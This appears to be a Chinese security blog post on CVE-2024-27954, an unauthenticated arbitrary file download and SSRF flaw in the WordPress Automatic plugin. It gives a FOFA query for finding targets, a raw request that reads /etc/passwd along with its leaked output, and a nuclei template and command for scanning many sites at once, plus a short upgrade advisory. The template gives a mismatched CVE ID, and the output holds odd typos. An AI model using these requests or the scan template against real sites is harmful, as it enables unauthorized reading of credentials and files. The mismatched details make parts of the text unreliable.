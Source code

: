 #  CVE-2024-27954   
原创 fgz  AI与网安   2024-03-28 07:02  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
WordPress Automatic 插件任意文件下载和SSRF漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
WordPress Automatic Plugin <3.92.1  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
WordPress   
Automatic  
 插件<3.92.1易受未经验证的任意文件下载和SSRF的攻击。位于downloader.php文件中，可能允许攻击者从网站下载任何文件。敏感数据，包括登录凭据和备份文件。此漏洞已在3.92.1版本中修补。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
"/wp-content/plugins/wp-automatic"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BN7DlicKbLicGKAtXcYyORuibeZv20awO38VwgNNiaDwA9RzUVpvrj9ntGUSYXRFM8mk5XYAZofyBHwWA/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包  
```
GET /?p=3232&wp_automatic=download&link=file:///etc/passwd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```  
  
响应内容如下  
```
{
  "link": "file:\/\/\/etc\/passwd",
  "title": null,
  "status": "success",
  "text": ["root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologiin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9::9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33::33:www-data:\/var\/www:\/usr\/sbin\/nologin\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologiin\nirc:x:39:39:ircd:\/run\/ircd:\/usr\/sbin\/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):\/var\/lib\/gnats:\/usr\/sbin\/nologin\nnobody:x:65534:65534:noboddy:\/nonexistent:\/usr\/sbin\/nologin\n_apt:x:100:65534::\/nonexistent:\/usr\/sbin\/nologin\nmessagebus:x:101:101::\/nonexistent:\/usr\/sbin\/nologin\nuuidd:x:102:102::\//run\/uuidd:\/usr\/sbin\/nologin\ntcpdump:x:103:103::\/nonexistent:\/usr\/sbin\/nologin\nsystemd-network:x:104:105:systemd Network Management,,,:\/run\/systemd:\/usr\/sbiin\/nologin\nsystemd-resolve:x:105:106:systemd Resolver,,,:\/run\/systemd:\/usr\/sbin\/nologin\n_chrony:x:106:112:Chrony daemon,,,:\/var\/lib\/chrony:\/usr\/sbin\/nologinn\nsshd:x:107:65534::\/run\/sshd:\/usr\/sbin\/nologin\nsystemd-timesync:x:999:999:systemd Time Synchronization:\/:\/usr\/sbin\/nologin\nsystemd-coredump:x:998:998:systemdd Core Dumper:\/:\/usr\/sbin\/nologin\nbitnami:x:1000:1000:Debian:\/home\/bitnami:\/bin\/bash\nmysql:x:1001:1002::\/home\/mysql:\/bin\/sh\nvarnish:x:1002:1003::\/home\/vaarnish:\/bin\/sh\n"]
}
```  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
批量扫描 poc  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-27954

info:
  name: WordPress Automatic Plugin <3.92.1 - Arbitrary File Download and SSRF
  author: iamnoooob,rootxharsh,pdresearch
  severity: critical
  description: |
    WordPress Automatic plugin <3.92.1 is vulnerable to unauthenticated Arbitrary File Download and SSRF Located in the downloader.php file, could permit attackers to download any file from a site. Sensitive data, including login credentials and backup files, could fall into the wrong hands. This vulnerability has been patched in version 3.92.1.
  reference:
    - https://wpscan.com/vulnerability/53b97401-1352-477b-a69a-680b01ef7266/
    - https://securityonline.info/40000-sites-exposed-wordpress-plugin-update-critical-cve-2024-27956-cve-2024-27954/#google_vignette
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27954
  classification:
    cvss-score: 9.8
    cve-id: CVE-2022-1970
    cwe-id: CWE-918
  metadata:
    verified: true
    max-request: 1
    publicwww-query: "/wp-content/plugins/wp-automatic"
  tags: wpscan,cve,cve2024,wp,wordpress,wp-plugin,lfi,ssrf,wp-automatic

http:
  - method: GET
    path:
      - "{{BaseURL}}/?p=3232&wp_automatic=download&link=file:///etc/passwd"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"link":"file:'

      - type: regex
        regex:
          - "root:.*:0:0:"
# digest: 4b0a00483046022100f4561d82424240be6c3dc4fc29a070e44885e39d14ffcdbddae881eeaf89d958022100cf500bf58250d2b5bf2a94220a8afcd8531d91b7d914c46d485700c5558887ac:922c64590222798bb761d5b6d8e72950
```  
  
运行POC  
```
nuclei.exe -id CVE-2024-27954 -l data\1.txt
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到  
3.92.1版本。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
  
